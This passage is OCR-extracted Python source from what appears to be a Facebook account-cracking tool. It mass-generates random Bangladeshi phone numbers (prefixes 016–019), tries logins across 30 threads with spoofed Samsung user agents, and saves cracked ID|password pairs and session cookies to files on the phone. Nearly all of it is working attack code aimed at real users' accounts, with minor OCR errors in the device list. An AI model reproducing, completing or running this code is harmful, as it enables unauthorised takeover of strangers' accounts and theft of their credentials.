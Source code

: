                                 kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [SOHAIL-OK] %s | %s'%(ids,pas))
                                open(f'/sdcard/SOHAIL-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                #cek_apk(session,coki)
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
#
def bd():
                user=[]
                pcp=[]
                clear()
                pcp.append(f'y')
                print('\033[1;32m Code example: 016,017,018,019')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;32m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as sat:     